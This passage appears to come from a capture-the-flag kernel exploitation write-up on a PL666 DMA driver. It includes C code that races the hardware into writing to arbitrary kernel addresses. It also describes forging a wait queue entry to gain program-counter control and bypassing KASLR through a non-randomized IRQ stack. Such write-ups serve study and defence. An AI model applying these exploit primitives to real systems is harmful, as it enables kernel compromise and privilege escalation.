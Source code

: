 Note that I don't think the atomic builtin is actually needed, but I was having
issues with GCC optimizing things out and it worked as a hack. This race wins
reliably in 1 attempt, very rarely 2 attempts. In practice, attempting the race
3 times did not fail in any of my testing. Writing is essentially the same, but
I first populate the hardware with data, and set `PL666_LLI_READ` on my forged LLI
to trigger the HW to write to the kernel address.
```c
    void write_kernel(int fd, uint64_t kaddr, void * uaddr, uint64_t size){
        printf("(Thread 1): Write %p:%x\n", kaddr, size);    
        //populate hw with data to write:
        memcpy(a, uaddr, size);
        buf[0].src = a;
        buf[0].dst = 0x1000;
        buf[0].size = size;
        write(fd, buf, sizeof(struct lli));
        //valid entry, will be read from user to hw
        memset(buf, 0, sizeof(struct lli) * 4);
        buf[0].src  = a;
        buf[0].size = 0x10;
        //forged entry (write from hw to kaddr)
        buf[1].src  = 0x1000;
        buf[1].dst  = kaddr;
        buf[1].size = size;
        buf[1].ctrl = PL666_LLI_READ;
        //do the race
        racer_run = 1;
        for(int i = 0; i < 16; i++) {
            buf[0].src = a;
            write(fd, buf, sizeof(struct lli));
        }
        racer_run = 0;
        return;
    }
```

### Exploitation: KASLR? Never heard of it!

At this point I spun my wheels for many, many hours trying to find the kernel
base from the info leak we get. The addresses returned by `vmap` don't seem to be
relative to the kernel base, and therefore are not useful as an info leak. I spent a good
bit of time with gdb exploring the memory around those regions looking for
something valid, but I couldn't make anything reliable. I went down a huge rabbit
hole after realizing I could scan relative to my leaked `vmap` addresses and
find the `pl666_data` structure. I was eventually able to forge a `struct
wait_queue_entry` and link it to the `dma_wait` list, which got me program
counter control but no closer to actually landing.

While looking at my crash with controled PC in the oops message, I noticed something weird
and extremely useful. Since we are crashing in an IRQ handler, our stack is the
IRQ stack&#x2026; and the address didn't seem to be changing!
After digging a bit into the kernel source, I found an
[lwn article](https://lwn.net/Articles/657969/) describing a patch to introduce the IRQ stack, using
`__get_free_pages` to allocate it. On [modern](https://elixir.bootlin.com/linux/latest/source/arch/arm64/include/asm/vmap_stack.h#L18) kernels, the IRQ stacks are
allocated with `__vmalloc_node_range`, but the effect is the same: No
randomization.
